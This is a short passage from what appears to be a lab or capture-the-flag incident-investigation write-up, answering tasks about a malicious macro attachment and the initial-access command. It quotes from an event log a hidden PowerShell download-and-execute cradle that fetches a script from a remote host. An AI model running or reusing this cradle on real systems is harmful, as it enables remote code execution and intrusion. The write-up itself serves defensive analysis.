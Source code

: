 ```
```

>Task 19: What is the full path for the malicious attachment?

![4ca636dfb4fc1a574184f881f871b2da.png](../../../_resources/4ca636dfb4fc1a574184f881f871b2da.png)
```
C:\Users\ceo-us\Downloads\policy.docm
```

>Task 20: Can you provide the command used to gain initial access?

![d53f8b2efb9f0f621b891b8087c7bd37.png](../../../_resources/d53f8b2efb9f0f621b891b8087c7bd37.png)
I found this command on PowerShell event log which later will be answered what kind of threat is this file
```
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:806/a'))
```
